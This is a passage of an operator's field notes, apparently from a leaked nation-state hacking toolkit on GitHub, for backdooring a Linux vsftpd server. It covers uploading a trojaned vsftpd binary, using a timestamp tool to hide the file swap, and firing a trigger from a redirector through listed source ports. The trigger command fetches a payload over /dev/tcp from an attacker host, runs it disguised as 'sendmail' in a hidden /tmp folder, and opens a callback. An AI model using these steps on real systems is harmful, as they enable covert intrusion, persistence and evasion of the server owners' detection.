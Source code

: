 ```
2.so

# or
-lt /usr/lib/librpm-4.2.so /usr/lib/librpmdb-4.2.so /usr/lib/librpmio-4.2.so /usr/lib/libpopt.so /usr/lib/libbeecrypt.so /usr/lib/libbz
2.so

-lt /usr/sbin/vsftpd
# normal vsftpd md5sum: 11111ecd2d3ab44015eae3592fcfaec7
# porked vsftpd md5sum: bde8b06829df05be8be4b5972a2d4a39
md5sum vsftpd

-put /current/up/it it
./it /usr/sbin/vsftpd

cp /usr/sbin/vsftpd ?
-put /current/up/vsftpd vsftpd
cp vsftpd /usr/sbin/vsftpd
# use itime results to reset vsftpd times to original settings
./it /usr/sbin/vsftpd

service vsftpd stop
service vsftpd start


########  Trigger porked vsftpd

### in local window, get nopen ready
packrat -z NETCAT_PORT

### on redirector, get nopen listener ready
-nrtun NOPEN_PORT


### on redirector, set up tunnel, use a "pork source port" from list below
-tunnel
l 21 TARGET_IP 21 SPORT
r NETCAT_PORT

### in scripted local window, send pork trigger

#Usage: ./client -t|-u timeadj sport hostname dport command
#sport: 3 51 3854 5671 8213 12634 16798 23247 35139 47923 53246 63201

#./client -t|-u [tcp/udp] timeadj sport [(valid source ports for the server are: 3, 51, 3854, 5671, 8213, 12634, 16798, 23247, 35139, 47923, 53246, 63201)]  hostname[Host IP]  dport [(port on which PORKified daemon is listening)] command"

./client -t 0 SPORT 127.0.0.1 21 "cd /tmp;mkdir -p .scsi && cd .scsi; cat < /dev/tcp/PITCH_IP/NETCAT_PORT > sendmail.uu && uudecode sendmail.uu && chmod 755 sendmail && PATH=. S=1 D=-cPITCH_IP:NOPEN_PORT ./sendmail"


```
Source: [https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505)


